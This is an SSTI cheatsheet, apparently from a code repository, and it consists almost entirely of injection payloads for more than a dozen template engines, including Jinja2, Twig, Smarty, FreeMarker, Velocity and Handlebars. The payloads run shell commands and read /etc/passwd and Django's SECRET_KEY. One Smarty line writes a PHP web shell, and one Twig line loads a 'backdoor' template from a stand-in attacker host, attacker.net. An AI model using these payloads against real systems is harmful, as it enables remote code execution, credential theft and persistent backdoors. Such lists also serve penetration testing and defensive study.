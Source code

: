Server Side Template Injection (SSTI) Cheatsheet
================


## Polyglot:
```
${{<%[%'"}}%\
```

## FreeMarker (Java):
```
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```
## (Java):
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
## Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
## Smarty (PHP):
```
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
````
## Handlebars (NodeJS):
```
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
## Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
## ERB (Ruby):
```
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
## Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
```
#Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
```
## Mojolicious (Perl):
```
<%= perl code %>
<% perl code %>
```
## Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
```
## Flask/Jinja2: 
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```
## Jade:
```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
## Razor (.Net):
```
@(1+2)
@{// C# code}
```
